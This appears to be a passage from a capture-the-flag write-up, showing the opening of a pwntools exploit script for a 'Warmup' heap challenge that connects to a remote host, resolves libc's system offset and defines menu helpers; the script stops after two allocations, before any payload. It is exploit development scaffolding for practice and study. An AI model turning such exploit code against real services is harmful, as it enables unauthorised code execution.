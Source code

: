
## Pwn


### Warmup

probability of 1/16

```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '47.52.90.3'
port = 9999

binary = "./warmup"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")
q=0
def add(content):
  global q
  q+=1
  print q
  r.recvuntil(">>")
  r.sendline("1")
  r.recvuntil(">>")
  r.send(content)

def edit(index,content):
  r.recvuntil(">>")
  r.sendline("3")
  r.recvuntil(":")
  r.sendline(str(index))
  r.recvuntil(">>")
  r.send(content)

def remove(index):
  r.recvuntil(">>")
  r.sendline("2")
  r.recvuntil(":")
  r.sendline(str(index))
  pass


if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})
  #r = remote("127.0.0.1" ,4444)

else:
  r = remote(host ,port)

if __name__ == '__main__':
  add("1") # 0
  add("2") # 1
```